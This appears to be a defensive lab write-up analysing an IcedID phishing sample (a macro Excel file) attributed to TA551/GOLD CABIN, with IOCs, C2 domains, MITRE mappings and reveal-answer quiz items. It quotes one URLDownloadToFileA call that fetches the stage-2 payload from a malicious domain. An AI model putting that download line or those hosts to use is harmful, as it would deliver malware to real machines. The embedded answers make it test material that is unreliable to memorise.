




## Overview

Threat intelligence investigation into an IcedID sample distributed via widespread phishing campaigns attributed to **TA551 / GOLD CABIN**. No live environment — pure IOC analysis using hash lookups across VirusTotal, Any.run, and tria.ge to reconstruct the full delivery chain and map TTPs.

**Sample hash:** `191eda0c539d284b29efe556abb05cd75a9077a0`

---

## Sample Identification

Starting with the SHA1 hash on VirusTotal to establish the file identity.

The sample is a macro-enabled Excel document — the `.xlsm` extension is a classic IcedID delivery vehicle. Malicious Office macros remain one of the most reliable initial access methods because they abuse legitimate Microsoft functionality.

**Filename:** `document-1982481273.xlsm`

**MITRE: T1566.001 — Phishing: Spearphishing Attachment** **MITRE: T1204.002 — User Execution: Malicious File**

---

## Staged Payload Delivery

IcedID uses a two-stage delivery chain. The Excel macro acts as stage 1 — its sole purpose is to download and execute stage 2. The stage 2 payload is disguised as a GIF file to blend in with normal web traffic and avoid content inspection.

**Stage 2 filename:** `3003.gif`

The file is not actually an image — it's a malicious DLL or loader masquerading as a GIF. Renaming payloads to bypass extension-based filtering is a well-documented IcedID technique.

**MITRE: T1027.002 — Obfuscated Files or Information: Software Packing** **MITRE: T1105 — Ingress Tool Transfer**

---

## C2 Infrastructure — Domain Analysis

From the Any.run and tria.ge reports, the macro attempts to download `3003.gif` from **5 domains**. This redundancy is deliberate — if one domain is taken down or blocked, the malware falls back to the next, ensuring successful payload delivery.

Contacted URLs observed pulling `3003.gif`:

|URL|Detections|Status|
|---|---|---|
|hxxps[://]columbia[.]aula-web[.]net/ds/3003[.]gif|10/97|404|
|hxxps[://]partsapp[.]com[.]br/ds/3003[.]gif|10/94|—|
|hxxps[://]metaflip[.]io/ds/3003[.]gif|12/97|—|
|hxxp[://]usaaforced[.]fun/ds/3003[.]gif|8/95|—|
|hxxps[://]tajushariya[.]com/ds/3003[.]gif|10/98|—|

**MITRE: T1071.001 — Application Layer Protocol: Web Protocols** **MITRE: T1573.002 — Encrypted Channel: Asymmetric Cryptography**

---

## Registrar Attribution

WHOIS lookups across the malicious domains reveal a pattern — the threat actor predominantly registered their infrastructure through **Namecheap**. This is consistent with known TA551 operational behaviour; Namecheap's relatively low cost and privacy features make it a common choice for threat actor infrastructure.

**MITRE: T1583.001 — Acquire Infrastructure: Domains**


---
## Threat Actor Attribution — GOLD CABIN / TA551

Historical WHOIS and TTP correlation attributes this campaign to **GOLD CABIN** (Secureworks naming convention), also tracked as **TA551** (Proofpoint). Key indicators:

- Macro-enabled Office document delivery via phishing
- `.gif` disguised payload staging
- Namecheap infrastructure
- IcedID as primary payload
- Multi-domain fallback C2 chain

GOLD CABIN is a financially motivated initial access broker known for high-volume phishing campaigns delivering IcedID, Ursnif, and Qakbot. They typically sell access to downstream ransomware operators.

---

## Execution Function

From the [tria.ge](https://tria.ge/210330-gbdr6k9jxx) PE imports analysis — the macro uses the Windows API function `URLDownloadToFileA` to fetch the stage 2 payload from the C2 domains.

`URLDownloadToFileA` is the ANSI variant from `urlmon.dll` — standard for malware targeting broad Windows environments. It downloads a file from a URL directly to disk, making it ideal for staging payloads without requiring additional tooling.

```
URLDownloadToFileA(NULL, "https://metaflip.io/ds/3003.gif", "C:\...\3003.gif", 0, NULL)
```

**MITRE: T1105 — Ingress Tool Transfer**


---
## IOCs

|Type|Value|
|---|---|
|SHA1 Hash|191eda0c539d284b29efe556abb05cd75a9077a0|
|Filename|document-1982481273[.]xlsm|
|Stage 2 Payload|3003[.]gif|
|C2 Domain|columbia[.]aula-web[.]net|
|C2 Domain|partsapp[.]com[.]br|
|C2 Domain|metaflip[.]io|
|C2 Domain|usaaforced[.]fun|
|C2 Domain|tajushariya[.]com|
|Registrar|Namecheap|
|Threat Actor|GOLD CABIN / TA551|
|Execution Function|URLDownloadToFileA|

---

## MITRE ATT&CK

|Technique|ID|Notes|
|---|---|---|
|Spearphishing Attachment|T1566.001|.xlsm delivered via phishing email|
|User Execution: Malicious File|T1204.002|Victim opens Excel and enables macros|
|Ingress Tool Transfer|T1105|URLDownloadToFileA pulls 3003.gif from C2|
|Software Packing / Obfuscation|T1027.002|Payload disguised as GIF file|
|Application Layer Protocol|T1071.001|C2 over HTTPS|
|Asymmetric Cryptography|T1573.002|SSL/TLS encrypted C2 comms|
|Exfil Over Alt Protocol|T1048.002|Data exfil via HTTPS|
|Registry Run Keys|T1547.001|IcedID persistence mechanism|
|Browser Session Hijacking|T1185|IcedID web injection for credential harvesting|
|Acquire Infrastructure: Domains|T1583.001|Namecheap-registered C2 domains|

---

## Lessons Learned

- **Multi-domain fallback is a resilience technique** — 5 domains for a single payload means takedown of one or two has no operational impact on the campaign; defenders need to block the pattern, not just individual IOCs
- **GIF masquerading is content inspection evasion** — file extension filtering is trivially bypassed; content inspection by magic bytes or behaviour is required
- **Namecheap as infra indicator** — registrar choice is a weak but useful attribution signal when combined with other TTPs; GOLD CABIN's Namecheap preference has been consistent enough to be a supporting indicator
- **URLDownloadToFileA vs W** — the A (ANSI) variant is older but still widely used in malware; modern samples sometimes use the Wide (W) variant or PowerShell equivalents to avoid this specific string in static analysis

---

<div class="qa-item"> <div class="qa-question-text">What is the name of the file associated with the given hash?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">document-1982481273.xlsm</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Can you identify the filename of the **GIF** file that was deployed?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span>3003.gif<span class="r-answer"></span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">How many domains does the malware look to download the additional payload file in **Q2**?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">5</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">From the domains mentioned in **Q3**, a DNS registrar was predominantly used by the threat actor to host their harmful content, enabling the malware's functionality. Can you specify the Registrar INC?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">namecheap</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">Could you specify the threat actor linked to the sample provided?</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">GOLD CABIN</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">In the **Execution** phase, what function does the malware employ to fetch extra payloads onto the system?</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">URLDownloadToFileA</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

